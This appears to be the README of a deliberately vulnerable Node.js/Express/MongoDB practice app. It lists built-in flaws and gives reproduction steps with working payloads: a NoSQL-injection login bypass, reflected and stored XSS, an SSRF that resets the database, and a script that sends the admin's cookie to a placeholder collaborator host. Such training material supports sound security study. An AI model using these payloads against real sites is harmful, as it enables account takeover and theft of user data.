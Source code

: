 # Simple Application

## System Info

- **Server environment**: Node.js
- **Web Framework**: Express
- **Database**: MongoDB
- **Platform (developed on)**: Ubuntu 20.04

## Features

1. User login
2. User Registration
3. Search Users
4. Download images via URL

## Weaknesses

1. Authentication can be bypassed by NoSQL injection in the login form
2. Reflected cross-site scripting in the user search form
3. Can induce the server to make requests using SSRF in image download feature
4. Admin account can be compromised using stored XSS in the registration form
5. User's personal information can be accessed via direct endpoint

## Steps to Reproduce

1. **NoSQL Injection**
- Go to the login page.
- Enter any valid username and any password while intercepting the request in Burp.
- Replace the value of the Content-Type header with the below data to change it to JSON.
`application/json;charset=UTF-8`
- Replace the request body with the below JSON data containing the payload.
`{"username":"admin","password":{"$ne": 1}}`
- Send the request to get authenticated.
	
2. **Reflected XSS**
- Get authenticated and go to the user search page.
- Enter the below XSS payload in the search bar and submit to execute it.
`<script>alert(document.domain)</script>`
		
3. **Server-side request forgery (SSRF)**
- Get authenticated and go to the image download page.
- Enter the below URL in the URL field and submit to induce a request on behalf of the server that will reset the application database.
http://localhost:3000/reset
		
4. **Account takeover via Stored XSS**
- Go to the registration page and create a user with the below username
`<script>var i=new Image;i.src="http://<BURP-COLLABORATOR-PAYLOAD>/?"+document.cookie;</script>`
- Wait for the admin to login and access all user's data.
- Once done, get admin's session ID in Burp collaborator client.
- Get authenticated and replace the session ID with admin's using the Storage tab in the browser dev tools.
- Refresh the page to get a session as the admin.
	
5. **Information disclosure via direct endpoint**
- Send a POST request to the below endpoint to get the data of all the users.
http://localhost:3000/admin/users
